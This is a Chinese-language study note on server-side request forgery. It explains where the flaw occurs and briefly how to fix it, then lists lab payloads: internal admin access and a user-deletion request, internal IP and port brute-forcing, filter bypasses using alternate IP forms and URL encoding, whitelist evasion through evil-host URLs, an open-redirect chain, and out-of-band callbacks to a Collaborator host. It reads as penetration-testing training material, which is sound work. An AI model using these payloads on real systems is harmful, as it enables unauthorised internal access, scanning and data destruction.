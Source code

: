 ## ==未归纳==

SSRF（服务器端请求伪造）漏洞是一种通过诱导服务器发起未经授权的请求，从而访问内部资源、敏感数据或对外部系统发起攻击的安全漏洞。

一般在用户可以请求服务器访问第三方资源的业务中存在

例如：

1. 发送 `HTTP` 请求：https://www.example.com/xxx.php?images=https://www.kali.org/kali.jpg
2. 服务器接收到请求之后获取 http://www.kali.org/kali.jpg 图片
3. 服务器获取到图片后将图片返回给用户

常见位置：

1. 分享：通过 `url` 地址分享网页内容

2. 转码服务

3. 在线翻译

4. 图片加载与下载：通过 `url` 地址加载或下载图片

5. 图片、文章收藏功能

6. 未公开的 `api` 实现以及其他调用 `url` 的功能

7. 从 `url` 关键字中寻找：

   `share` `wap` `url` `link` `src` `source` `target` `u` `3g` `display` `sourceURl` `imagesURL` `domain` 

8. `php` 中容易存在 `ssrf` 的函数：

   `curl`  `file_get_content` 

常见用途：

1. 任意文件读取

   > 可利用 `ssrf` 漏洞读取 `web` 服务用户能够访问的所有文件

2. 内外网 `ip` 端口和服务扫描

   > 通常情况下黑客只能扫描目标服务器的外网端口，可以利用 `ssrf` 漏洞扫描不对外开放的内网端口

3. 内外网主机漏洞利用

>  `get` 
>
>  >  `sql` 注入
>
>  `post` 
>
>  > `sql` 注入，`rce` 调用

修复思路：

1. 限制协议
2. 限制 `ip` 
3. 限制端口

可能存在 ssrf 的 url 样式

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php
```

## 验证

**直接验证**

利用 `ssrf` 漏洞获取一个外网的页面

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://hack.local/
```

![利用 ssrf 漏洞获取一个外网的页面](./../../../images/SSRF/%E5%88%A9%E7%94%A8%20ssrf%20%E6%BC%8F%E6%B4%9E%E8%8E%B7%E5%8F%96%E4%B8%80%E4%B8%AA%E5%A4%96%E7%BD%91%E7%9A%84%E9%A1%B5%E9%9D%A2.png)

**`burp` 验证**

复制 `Collaborator` 域名

```
9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com
```

![复制 Collaborator 域名](./../../../images/SSRF/%E5%A4%8D%E5%88%B6%20Collaborator%20%E5%9F%9F%E5%90%8D.png)

通过 `ssrf` 访问以上域名

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com/
```

![通过 ssrf 访问以上域名](./../../../images/SSRF/%E9%80%9A%E8%BF%87%20ssrf%20%E8%AE%BF%E9%97%AE%E4%BB%A5%E4%B8%8A%E5%9F%9F%E5%90%8D.png)

> 若网站有 `cdn` 可通过 `dns 轮询` 得到主服务器 `ip` 

---

可能存在于库存的查询功能

通过后端 api 查询的功能可通过伪造 api 伪造用户请求

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1
```

> 库存检查功能，可以从内部系统获取数据

构造 api 请求

```
stockApi=http://localhost/admin
```

> 获取 `/admin` URL 的内容

```
stockApi=http://localhost/admin/delete?username=carlos
```

> 删除用户 `carlos` 
>
> 在面板查看删除链接源码即可构造删除命令

在控制台 ip 未知的情况下可通过爆破获取

```
stockApi=http://192.168.0.§1§/admin
```

有时可能需要爆破端口

```
stockApi=http://192.168.0.§1§:§80§/admin
```

某些网站可能对特定 IP 的访问或者特定的路径进行过滤

```
使用 127.0.0.1 的替代 IP 表示形式，例如 2130706433 、 017700000001 或 127.1 。
注册您自己的域名，解析为 127.0.0.1 。您也可以使用 spoofed.burpcollaborator.net 来实现此目的。(http://test.local:8080/admin)
使用 URL 编码或大小写变化来混淆被阻止的字符串（有时需要双 URL 编码）。(http://127.0.0.1:8080/AdMi%6e)
提供您控制的 URL，该 URL 会重定向到目标 URL。尝试对目标 URL 使用不同的重定向代码以及不同的协议。例如，在重定向期间从 http: URL 切换到 https: URL 已被证明可以绕过某些反 SSRF 过滤器。(https://127.0.0.1:8080/admin)
```

> 尝试访问一个目标本地 IP，并构造正常操作，若出发安全机制则是 IP 被过滤
>
> ```
> http://127.0.0.1:8080/product/stock/check?productId=1&storeId=1
> ```
>
> 通过替代 IP 表示形式，访问不存在的路径，若未触发安全机制则成功绕过 IP 过滤
>
> ```
> http://127.1:8080/test
> ```
>
> 得到 IP 后爆破路径，触发 WAF 则是路径被过滤
>
> ```
> http://127.1/admin
> ```
>
> 可尝试对路径大小写或者 URL 绕过（可尝试使用 Hackvertor 进行双 URL 编码）
>
> ```
> http://127.1/AdMi%4e
> ```

白名单过滤可以通过以下方式绕过

> - 您可以使用 `@` 字符将凭据嵌入 URL 中的主机名之前。例如：
>
>   ```
>   https://expected-host:fakepassword@evil-host
>   ```
>
> - 您可以使用 `#` 字符来指示 URL 片段。例如：
>
>   ```
>   https://evil-host#expected-host
>   ```
>
> - 您可以利用 DNS 命名层次结构将所需的输入放入您控制的完全限定的 DNS 名称中。例如：
>
>   ```
>   https://expected-host.evil-host
>   ```
>
> - 您可以对字符进行 URL 编码以混淆 URL 解析代码。
>
> - 如果实现过滤器的代码处理 URL 编码字符的方式与执行后端 HTTP 请求的代码不同，则这尤其有用。您还可以尝试双编码字符；一些服务器对它们收到的输入进行递归 URL 解码，这可能会导致进一步的差异。
>
> - 您可以结合使用这些技术。

有时可以通过利用开放重定向漏洞来绕过基于过滤器的防御。

> 例如，该应用程序包含一个开放重定向漏洞，其中以下 URL：
>
> ```
>  /product/nextProduct?currentProductId=6&path=/product?productId=3
> ```
>
> 返回重定向到：
>
> ```
>  /product?productId=3
> ```
>
> 您可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，如下：
>
> ```
> POST /product/stock HTTP/1.0
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 118
> 
> stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
> ```

若存在无回显的 ssrf 则可利用 Burp Collaborator 修改  Referer 标头中指定的 URL 测试

```
Referer: https://test.oastify.com/
```

可能存在 SSRF 的 URL

```
http://www.xxx.com/vul.php?url=http://www.xxc.com/xxx.jpg
http://share.xxx.com/index.php?url=http://test.com
```

